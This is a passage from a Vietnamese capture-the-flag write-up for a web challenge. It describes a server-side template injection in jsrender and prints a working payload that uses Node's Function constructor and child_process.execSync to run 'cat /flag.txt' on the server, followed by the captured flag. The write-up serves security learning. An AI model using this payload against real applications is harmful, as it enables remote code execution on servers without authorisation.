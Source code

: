 Các chức năng ở trang admin này không có gì ngoài việc hiển thị các tên user ở đây cả, vậy nên mình nghi ngờ có thể ở trang này có chứa lỗi SSTI với jsrender

Sử dụng payload sau để register 

```
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()")()}}
```

![image-20230320212938758](./assets/image-20230320212938758.png)

Access trang admin và mình có được flag

![image-20230320213002797](./assets/image-20230320213002797.png)

`Flag: HTB{Pr3_C0MP111N6_W17H0U7_P4DD13804rD1N6_5K1115}`